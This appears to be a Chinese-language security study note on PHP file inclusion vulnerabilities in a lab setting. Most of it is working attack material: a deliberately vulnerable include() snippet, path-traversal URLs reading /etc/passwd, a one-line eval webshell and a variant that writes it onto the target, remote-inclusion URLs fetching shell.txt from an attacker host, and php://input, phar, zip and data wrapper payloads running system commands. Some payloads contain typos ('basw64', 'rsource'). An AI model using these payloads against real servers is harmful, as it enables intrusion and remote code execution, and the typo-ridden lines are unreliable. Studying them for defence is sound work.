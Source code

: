 # 文件包含漏洞

## 一、本地文件包含

### 1.源代码

```php
$filename = $_GET['filename'];
include $filename;
echo "欢迎来到PHP世界"
```

### 2.利用条件

-  php.ini中allow_url_fopen=On（默认开启）和allow_url_include=off（默认关闭）开启
-  用户参数可控且后台代码没有对包含的文件进行过滤

### 3.利用方式

```
http://192.168.101.2/fileinc.php?filename=login.html

http://192.168.101.2/fileinc.php?filename=/opt/lampp/logs/access_log

http://192.168.101.2/fileinc.php?filename=../../../../etc/passwd

http://192.168.101.2/fileinc.php?filename=php://filter/read/convert.basw64-encode/resource=common.php
```

## 二、远程文件包含

### 1.利用条件

- php.ini中allow_url_fopen=On（默认开启）和allow_url_include=off（默认关闭）开启
- 用户参数可控且后台代码没有对包含的文件过滤

### 2.利用方式

```php
// 木马文件
<?php
    @eval($_GET['code']);    // 一句话木马
	
	// 也可以直接创建木马到目标服务器进行利用
	// file_put_contents("temp/muma.php",'<?php @eval($_GET['code']); ?>')
?>
```

```
// 这种方式执行的是攻击者101.1的phpinfo命令
http://192.168.101.2/fileinc.php?filename=http://192.168.101.1/shell.php?code=phpinfo();

// 将php的后缀改成txt这种不可执行的才能让目标101.2执行phpinfo命令
http://192.168.101.2/fileinc.php?filename=http://192.168.101.1/shell.txt&code=phpinfo();

// 如果直接创建木马文件到目标服务器可以不带参数
http://192.168.101.2/fileinc.php?filename=http://192.168.101.1/shell.txt
```

## 三、PHP伪协议利用

### 1.伪协议

- php支持以下几种协议

  ```
  file:// — 访问本地文件系统
  http:// — 访问 HTTP(s) 网址
  ftp:// — 访问 FTP(s) URLs
  php:// — 访问各个输入/输出流（I/O streams）
  zlib:// — 压缩流
  data:// — 数据（RFC 2397）
  glob:// — 查找匹配的文件路径模式
  phar:// — PHP 归档
  ssh2:// — Secure Shell 2
  rar:// — RAR
  ogg:// — 音频流
  expect:// — 处理交互式的流
  ```

- php://是一种伪协议，主要是开启了一个输入输出流，理解文件数据传输的一个通道。PHP中的伪协议尝试用的有以下：

  - php://input
  - php://filter
  - phar://

### 2.php://filter

- 当直接包含一个php文件时，会被web容器解析，看不到源码信息

  - 如：`http://192.168.101.2/fileinc.php?filename=common.php`

  - 使用php://伪协议可以将源码读取出来

    ```
    // 以下将common.php的内容以base64方式读取，通过解码得到明文
    http://192.168.101.2/fileinc.php?filename=php://filter/read/convert.base64-encode/rsource=common.php
    ```

### 3.php://input

- `php://filter/read/convert.base64-encode/rsource=php://input`然后以POST的方式传输`<?php system('ifconfig') ?>`等php代码执行命令，也可以直接上传大马

### 4.phar://

- 主要用于在php中对压缩文件格式的读取。这种方式通常是用来配合文件上传漏洞使用，或者进阶的phar反序列化攻击

- 要给目标主机写入文件，可以直接想办法上传，也可以攻击服务器到命令行使用wget或curl下载

- 使用：

  - 先通过其他方式将压缩文件shell.zip上传到目标主机/temp/中

  - 通过phar://伪协议将压缩包中的shell.txt读取从而利用

    ```
    php://filter/read/convert.base64-encode/rsource=phar://temp/shell.zip/shell.txt
    ```

### 5.zip://

- 对压缩文件进行读取曹祖，原理与用法和phar几乎一样。区别是：
  - 压缩文件的目录符号需要将`/`替换为`#`，且要将`#`进行url编码为`%23`
  - zip只能包含单级目录，即不能/shell%23folder%23shell.txt

### 6.data://

- data://本身是数据流封装器，原理与用法和php://input类似，但是是发送GET请求参数
- `data://text/plain,<?php phpinfo(); ?>`
